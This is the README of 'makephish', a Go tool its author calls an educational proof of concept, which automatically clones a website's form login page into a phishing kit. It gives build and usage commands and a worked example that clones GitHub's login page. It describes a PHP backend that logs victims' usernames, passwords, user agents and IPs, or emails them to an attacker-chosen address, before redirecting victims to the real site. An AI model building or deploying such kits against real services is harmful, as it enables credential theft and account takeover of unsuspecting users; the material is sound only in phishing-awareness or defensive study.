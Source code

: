 # makephish

<p align="center">
  <p align="center">
    <a href="https://github.com/andpalmier/makephish/blob/master/LICENSE"><img alt="Software License" src="https://img.shields.io/badge/license-GPL3-brightgreen.svg?style=flat-square"></a>
    <a href="https://goreportcard.com/report/github.com/andpalmier/makephish"><img alt="Go Report Card" src="https://goreportcard.com/badge/github.com/andpalmier/goransom?style=flat-square"></a>
    <a href="https://twitter.com/intent/follow?screen_name=andpalmier"><img src="https://img.shields.io/twitter/follow/andpalmier?style=social&logo=twitter" alt="follow on Twitter"></a>
  </p>
</p>


This is a proof of concept to automatically create phishing kits based on a specified URL, **please note that** `makephish` **will work exclusively on websites having a simple pages with** `<form>` **logins.**

The purpose of this project is purely educative: I wrote `makephish` to get familiar with Go, this also means that the code is poorly written and organized. The idea of the project is also to show how easy it is to clone a website and use it to create phishing pages.

## Usage

After downloading the repository, navigate into the directory and build the project:

```
$ go build makephish.go
```

This will create an executable called `makephish`. You can then run the executable with the following flags:

- `-u`: URL of login page
- `-a`: User Agent string, by defefault *"Mozilla/5.0 (X11; Linux x86_64; rv:83.0) Gecko/20100101 Firefox/83.0"*
- `-p`: Path to the PHP file to be used, by default *"phish.php"*
- `-d`: Path used to store the kits, by default *"./kits"*


### Example

```
$ ./makephish -u "https://github.com/login/"



Navigating to https://github.com/login using the following User agent string: Mozilla/5.0 (X11; Linux x86_64; rv:83.0) Gecko/20100101 Firefox/83.0
Parameters found in the form of the given URL:
 post action = /session
 login attribute name = login
 password attribute name = password

HTML file patched and saved in kits/github.com
PHP file saved in kits/github.com
[!] Operation completed! Created a kit for https://github.com/login and saved in kits/github.com

$ tree kits/github.com
kits/github.com
├── assets
│   ├── behaviors-afe1a202.js
│   ├── chunk-frameworks-81b94425.js
│   ├── chunk-vendor-4d97ead9.js
│   ├── environment-f0adafbf.js
│   ├── frameworks-052cbe13e4b93c9b8358a7178885c1a0.css
│   ├── github-f19f9fd1ee83046f59cf1815d967f4d0.css
│   ├── sessions-45084fea.js
│   ├── settings-c44d66a8.js
│   ├── site-ca634d80a8a0df2203c34902267667dc.css
│   └── unsupported-a85b1284.js
├── index.html
└── phish.php

1 directory, 12 files

$ cd kits/github.com
$ $ php -S localhost:8000
[Sun Jan 10 12:10:54 2021] PHP 7.4.14 Development Server (http://localhost:8000) started

```

At this point, if you go to `localhost:8000` you should find something like this:

<p align="center">
  <img alt="fakeGH" src="https://github.com/andpalmier/makephish/blob/master/img/fakeGH.png?raw=true" />
</p>

If you enter some random credentials, you will note that you will be redirected to the real `github.com` login page:

<p align="center">
  <img alt="realGH" src="https://github.com/andpalmier/makephish/blob/master/img/realGH.png?raw=true" />
</p>

If you didn't modify the `phish.php` file, you can find the credentials you just enetered in `localhost:8000/log`:


<p align="center">
  <img alt="logs" src="https://github.com/andpalmier/makephish/blob/master/img/logs.png?raw=true" />
</p>

### PHP capabilities

A simple PHP file is provided in this repo, but you can easily adjust it to your needs. By default, the file will save username, password, User Agent string and IP of the victim in a log file, you can disable this option by removing the content of the variable `log`. You can also specify an email address to send these details via email everytime a new victim enters the credentials.

```
$exfilemail = ""; // -> enter an email address to send the details via email
$logpath = "log"; // -> make this variable empty to disable logging feature
```
